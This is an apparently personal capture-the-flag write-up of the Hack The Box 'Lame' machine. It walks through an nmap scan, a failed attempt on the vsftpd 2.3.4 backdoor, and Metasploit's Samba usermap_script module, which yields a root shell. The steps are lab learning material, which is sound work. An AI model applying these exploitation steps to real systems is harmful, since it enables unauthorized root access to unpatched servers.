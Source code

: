 # Title: Lame
  Date: 2019-10-11

This box is rated very easy, probably the easiest there is. I've played with HTB a bit but never really focused much on it. I'm planning to work through the boxes starting with the easiest. I've done a few but have always been _very_ bad at documenting things. So this is my first actual writeup. 

## Enumeration

Kicked off with a quick port scan with service detection, which returned the following:

```
$ sudo nmap -sV -sS -T4 lame 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-11 14:33 CDT
Nmap scan report for lame (10.10.10.3)
Host is up (0.094s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP Red Herring? Or bad hacker?

The first thing I did was check out the ftp server. I was able to log in anonymously and noticed the server was vsFTPd v2.3.4. I recognized this as a pretty cool possible vulnerability and think I may have actually used it for a CTF challenge I built a few years back. Here is the background:

> This module exploits a malicious backdoor that was added to the VSFTPD download archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 according to the most recent information available. This backdoor was removed on July 3rd 2011. 

I then kicked off Metasploit (msfconsole) and searched for vsftpd:

```
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

Selected the exploit:

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
```

Looked at the options:

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options 

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)
```

Set the RHOSTS to the lame IP (I added an entry to my hosts file to make life easier):

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts lame
rhosts => lame
```
And then kicked off the exploit:

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

The exploit didn't work out of the box so I moved on thinking maybe this was a trick and the vulnerable version of the server was not installed on the box. Since this box is rated super easy I figured it wouldn't take that much work.

## Samba

I moved on to the Samba shares. I first used the __Impacket__ (https://github.com/SecureAuthCorp/impacket) smbclient.py script to try connecting:

```
smbclient.py lame
```

I found some shares but nothing really very interesting on them. I also ran "enum4linux" on the box but didn't really make it to going through the results because while it was running I moved on to just doing a bit of research and searched "exploit open smb share". I came across this site: 
https://resources.infosecinstitute.com/hacking-and-gaining-access-to-linux-by-exploiting-samba-service/#gref 

I ran through the Metasploit commands and was kinda shocked when a shell just popped. 

I ran through the following:

```
use auxiliary/scanner/smb/smb_version
...set up options and executed...
```

and then:

```
use exploit/multi/samba/usermap_script
...set up options and executed...
```

To my surprise running this popped a shell?! I was kind of blindly following the site and didn't realize it would actually work.

## User flag

Once I got the shell I found the user flag under /home/makis

## Root flag

I ran "whoami" and was surprised that I'd popped a root shell. The root flag was surprisingly in the /root folder.

## Endnotes

I'm curious to go take a look at other writeups for this one. I have a feeling there are several paths to take.

Here are the details on the Samba exploit that surprised me:

> This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! 